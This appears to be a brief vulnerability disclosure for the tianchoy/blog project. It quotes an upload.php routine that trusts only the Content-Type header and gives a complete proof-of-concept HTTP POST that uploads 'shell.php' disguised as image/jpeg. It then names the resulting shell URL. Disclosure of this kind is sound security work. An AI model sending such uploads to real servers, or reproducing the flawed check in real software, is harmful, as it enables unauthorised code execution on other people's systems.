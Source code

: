 ## powered by sebao from 404team ##

tianchoy/blog allows remote attackers to unauthentication of administrators for requests that upload PHP files. 


## Vulnerability link ##

https://github.com/tianchoy/blog

## Vulnerability details ##

in upload.php Line 11

	  switch($type){
	  case 'image/pjpeg': $ok=1;
	       break;
	case'image/png' : $ok=1;
	   break;
	case 'image/gif' :$ok=1;
	   break;
	case 'image/jpeg' :$ok=1;
	   break; 
	 } 
	 if($ok && $error=='0'){
	  move_uploaded_file($tmp_name,'images/'.$name);  
	   echo "ok";
	} else{
	 echo "fail!";      //非图片格式，给出提示
	      }
	 }
	}

this code only check the file content-type. if attackers set content-type to image/jpeg can upload any file.for example php file

exploit:



	POST /upload.php HTTP/1.1
	Host: loclahost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: multipart/form-data; boundary=---------------------------140872878228742
	Content-Length: 208
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	-----------------------------140872878228742
	Content-Disposition: form-data; name="upfile"; filename="shell.php"
	Content-Type: image/jpeg
	
	<?php phpinfo();?>
	-----------------------------140872878228742--

then the shell url is `http://localhost/images/shell.php`
